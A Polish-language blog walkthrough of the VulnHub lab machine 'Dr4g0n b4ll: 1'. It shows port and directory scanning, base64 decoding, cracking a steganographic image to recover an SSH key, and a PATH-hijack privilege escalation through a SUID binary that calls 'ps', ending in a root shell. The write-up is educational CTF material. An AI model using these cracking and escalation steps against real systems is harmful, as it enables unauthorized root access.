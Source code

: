 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough  
tags:
  - Hacking
  - Vulnhub
  - Dr4g0nB4ll
  - Walkthrough  
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
---
```

# Wstęp
Wydany na początku stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają jest bardzo prostą maszyną, jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować (Grub-a)[https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/]. Co do poziomu, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną (Hack Me Please: 1)[https://www.vulnhub.com/entry/hack-me-please-1,731/], ale ona już dla mnie taka prosta nie była, jak pisał autor. Przypominała bardziej prawdziwą sytuację, niż taką upstrzoną zagadkami. W hack-me-please niestety posiłkowałem się (solucją)[https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/] na necie. Inny typ zadania, ale zawsze jest jakieś nowe doświadczenie. Wracając do Dragon Ball-a, jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu. :smiley:
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty Nmap-em. Możemy pod Metasploitem, albo bez. Ja wolę użyć Metasploita, bo mam potem wszystkie ip, hasła, otwarte porty w jednym miejscu. Co do shella, to niekoniecznie, czasami wolę się wbić normalnie przez ssh, niż potem ulepszać Meterpreter, ale co kto woli.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
## Co na stronie piszczy?
Otwarte są tylko 2 porty: 22 i 80. Na Stronie www mamy zdjęcia z anime Dragon Ball.
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
```bash
echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Radzę pisać z przełącznikiem **-n**, teraz odkoduje tak samo, ale podczas kodowania base64 bez **-n** wychodzą inne rzeczy,koduje dodatkowo znak nowej linii **0x0a**.
{: .text-justify}
{: .notice--info}
Skanowanie Gobusterem:
```bash
gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy parę ciekawych rzeczy:
http://172.16.1.124/robots.txt
{: .text-justify}
{: .notice--info}
Ponownie dekodujemy
```bash
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Jest komunikat, żeby szukać ukryty katalog:
http://172.16.1.113/DRAGON%20BALL/Vulnhub/
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery3"  %}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .text-justify}
{: .notice--info}
{% include gallery id="gallery4"  %}
## Stenografia
Strona poprawnie nie działa, ale mamy login. i jest ciekawy obrazek **aj.jpg**:
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```console
root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
## Lądujemy do Shella
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**
```bash
ssh -i id_rsa xmen@172.16.1.113
```
Poszło:
Mamy ciekawy katalog script, ale poszukajmy plików, które mają ustawiony bit suid, może się coś ciekawego znajdzie:
```console
xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Ciekawa jest zawartość: **/home/xmen/script/shell**
```console
xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W **demo.c** widać krótki kod źródłowy. Program przechodzi na uprawnienia root-a i uruchamia program **ps**:
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
Program **./shell** uruchamia **ps** z uprawnieniami Roota:
```console
xmen@debian:~/script$ ./shell
   PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
xmen@debian:~/script$
```
Nie mamy podanej całej ścieżki do **ps**, więc możemy to wykorzystać. Stwórzmy program w katalogu domowym:
```bash 
file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym:
PATH="/home/xmen:$(echo $PATH)"
```console
xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
xmen@debian:~/script$ ./shell
root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
root@debian:~/script#
```
## Słowo na koniec
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać uprawnieniami **suid**. **ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}
